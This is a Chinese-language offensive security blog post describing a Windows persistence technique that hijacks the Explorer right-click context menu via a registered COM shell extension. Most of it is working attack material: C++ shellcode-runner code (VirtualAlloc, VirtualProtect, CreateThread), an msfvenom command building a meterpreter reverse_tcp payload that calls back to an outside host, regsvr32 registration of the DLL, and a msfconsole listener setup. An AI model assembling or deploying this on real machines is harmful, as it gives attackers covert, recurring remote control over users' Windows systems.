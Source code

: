 ```yaml
---
layout: post
title: 持久化 - 上下文菜单
date: '2023-03-29 16:12:57'
tags:
- persistence
---
```


上下文菜单为用户提供了快捷方式，以执行许多操作。上下文菜单通过右键单击调用，对于每个 Windows 用户来说，这是一个非常常见的操作。在攻击性操作中，通过在用户尝试使用上下文菜单时执行 shellcode，可以将此操作武器化以实现持久化。

[RistBS](https://twitter.com/RistBS) 开发了一个名为 [ContextMenuHijack](https://github.com/RistBS/ContextMenuHijack) 的 POC，可以通过注册 COM 对象利用上下文菜单实现持久化。使用“VirtualAlloc”函数以分配存储可执行的 shellcode 的内存区域。

    void InjectShc() 
    {
        DWORD dwOldProtect = 0;
        LPVOID addr = VirtualAlloc( NULL, sizeof( buf ), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE );
        memcpy( addr, buf, sizeof( buf ) );
     
        VirtualProtect( addr, sizeof( buf ), PAGE_EXECUTE_READ, &dwOldProtect );
     
        ( ( void( * )() )addr )();
    }

<img src="assets/img/blog/imported/persistence-Context-Menu---VirtualAlloc.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – VirtualAlloc</figcaption>

下面的代码用于接收有关用户将要选择的组件的信息，“CreateThread”将创建一个新线程来执行 shellcode。

    // 此函数通过创建新线程并注入shellcode来初始化上下文菜单扩展。 
    // 它还检查数据对象是否为空，如果为空，则返回S_OK。 
    IFACEMETHODIMP FileContextMenuExt::Initialize( LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hKeyProgID )
    {
        DWORD tid = NULL;
        CreateThread( NULL, 1024 * 1024, ( LPTHREAD_START_ROUTINE )InjectShc, NULL, 0, &tid );
     
        if ( NULL == pDataObj ) {
                    if ( pidlFolder != NULL ) {
                    }
            return S_OK;
        }
            return S_OK;
    }

<img src="assets/img/blog/imported/persistence-Context-Menu---Initialize---CreateThread.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – Initialize &amp; CreateThread</figcaption>

“QueryInterface”方法将查询接口集合的对象。

    IFACEMETHODIMP FileContextMenuExt::QueryInterface(REFIID riid, void **ppv)
    {
        // 定义 QITAB 数组，用于存储 COM 接口
        static const QITAB qit[] = 
        {
            QITABENT( FileContextMenuExt, IContextMenu ), // 右键菜单接口
            QITABENT( FileContextMenuExt, IContextMenu2 ), // 右键菜单接口 2
            QITABENT( FileContextMenuExt, IContextMenu3 ), // 右键菜单接口 3
            QITABENT( FileContextMenuExt, IShellExtInit ), // Shell 扩展接口
            { 0 },
        };
        // 调用 QISearch 方法，查找指定的 COM 接口
        return QISearch( this, qit, riid, ppv );
    }

<img src="assets/img/blog/imported/persistence-Context-Menu---QueryInterface-1.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – QueryInterface</figcaption>

上下文菜单处理程序将被注册为 COM 对象，因此将调用“RegisterInprocServer”函数。

        // 注册上下文菜单扩展
        // 将当前模块注册为一个 in-process COM 服务器
        hr = RegisterInprocServer( szModule, CLSID_FileContextMenuExt, L"ContextMenuHijack.FileContextMenuExt Class", L"Apartment" );
        if ( SUCCEEDED( hr ) ) {
            // 将当前对象注册为所有文件系统对象的上下文菜单处理程序
            hr = RegisterShellExtContextMenuHandler( L"AllFilesystemObjects", CLSID_FileContextMenuExt, L"ContextMenuHijack.FileContextMenuExt" );
        }
             
        return hr;
    }

<img src="assets/img/blog/imported/persistence-Context-Menu---RegisterInprocServer.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – RegisterInprocServer</figcaption>

使用 Metasploit 框架的“msfvenom”生成 shellcode 并写入文本文件中。

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=4444 EXITFUNC=thread -f c > shellcode.txt`

<img src="assets/img/blog/imported/persistence-Context-Menu-msfvenom-shellcode.png" class="kg-image" alt loading="lazy">

将 shellcode 放到代码中，代码编译完成，将生成一个 DLL。使用程序“regsvr32”将 DLL 注册到操作系统中。

<img src="assets/img/blog/imported/persistence-Context-Menu---DLL-Register-Server.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – DLL Register Server</figcaption>

`regsvr32 ContextMenuHijack.dll`

使用 msfconsole 进行监听，一旦用户在 Windows 环境中对对象（文件或文件夹）执行右键单击操作，代码将被执行，并建立通信通道。

    $ msfconsole
    msf6 > use exploit/multi/handler
    msf6 > set LHOST 10.211.55.2
    msf6 > run

## References

> https://github.com/RistBS/ContextMenuHijack  
> https://ristbs.github.io/2023/02/15/hijack-explorer-context-menu-for-persistence-and-fun.html

